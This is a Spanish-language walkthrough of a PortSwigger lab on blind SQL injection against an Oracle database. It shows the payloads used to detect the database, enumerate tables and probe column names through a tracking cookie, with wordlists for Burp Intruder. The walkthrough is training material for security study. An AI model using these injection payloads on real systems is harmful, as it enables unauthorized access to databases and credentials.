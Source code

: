 ```yaml
---
title: "12 Blind SQL injection with conditional errors"
collection: publications
category: portswigger
permalink: /publications/12_Blind SQL injection with conditional errors
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en ciego en la base de datos que recupera la contraseña del usuario administrador en la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with conditional errors'
---
```


![logo]({{site.url}}/images/SQLi/sqli-12/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-12/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario `administrator`.

## Analisis del campo vulnerable

En esta ocación vamos a probar el `TrackingId` si es vulnerable a SQLi. Necesitamos averiguar tambien si es BD Oracle o Mysql.

```sql
' || (SELECT '' FROM dual) || '         -> Payload para BD Oracle  ✅
' || (SELECT '') || '                   -> Payload para BD Mysql   ❌
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-12/vulnerable.png)

## Miramos cuantas columnas tiene

En este caso apenas 1 columna es vulnerable

```javascript
' ORDER BY 1--
```

![Columnas]({{site.url}}/images/SQLi/sqli-12/columnas.png)

## Miramos que el campo sea String

El campo es de tipo `String`, hacemos el llamado a la tabla DUAL ya que estamos ante una BD Oracle

```javascript
' UNION SELECT 'A' FROM DUAL--
```

![String]({{site.url}}/images/SQLi/sqli-12/campos.png)

## Miramos que BD esta corriendo

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Como de antemano la consulta tocó ingresarle la tabla DUAL de Oracle, vamos a corroborar que sea Oracle. Como nos arroja una respuesta `200` sabemos que es oracle.

```sql
' UNION SELECT banner FROM v$version--
```

![Oracle]({{site.url}}/images/SQLi/sqli-12/oracle.png)

## Comprobamos nombre de tablas

Ya que `no` conocemos las tablas que tiene la BD, haremos un ataque para comprobar que tablas existen. Si existe la tabla tendra que mostrar un estado `200` ya que estamos trabajando con Blind SQL 

```sql
' || (SELECT '' FROM payload WHERE rownum =1 ) || '
```

Vamos a usar la herramienta intruder para hacer el ataque.
Ejemplo de nombre de tablas:

```text
products
items
inventory
orders
order_items
sales
transactions
pricing
categories
customers
clients
users
profiles
subscriptions
addresses
```

![Intruder]({{site.url}}/images/SQLi/sqli-12/Intruder.png)

Cargamos los posibles nombres de tablas y filtramos por estado `200` y vemos que la tabla se llama `users`

![Estado]({{site.url}}/images/SQLi/sqli-12/estado.png)

## Comprobamos nombres de los campos que tiene la tablas

En Oracle, puedes forzar un error explícito utilizando una operación inválida o una referencia que dependa de la existencia de la columna.

```sql
' AND (SELECT COUNT(NOMBRE_COLUMNA) FROM NOMBRE_TABLA) > 0--

```

Lista de nombres para listar columnas de una tabla.
```list
id
user_id
username
email
phone_number
uuid
password
hashed_password
salt
token
last_login
login_attempts
first_name
last_name
full_name
date_of_birth
gender
address
city
state
country
postal_code
role
role_id
permissions
is_admin
is_active
```

Realizamos un ataque y analizar el estado de la respuesta, si es un estado 200 ok, es valido sino no existe la columna dentro de la tabla.

![Columna]({{site.url}}/images/SQLi/sqli-12/columna.png)

Filtramos por las que tengan estado `200`

![Columna]({{site.url}}/images/SQLi/sqli-12/lista columnas.png)
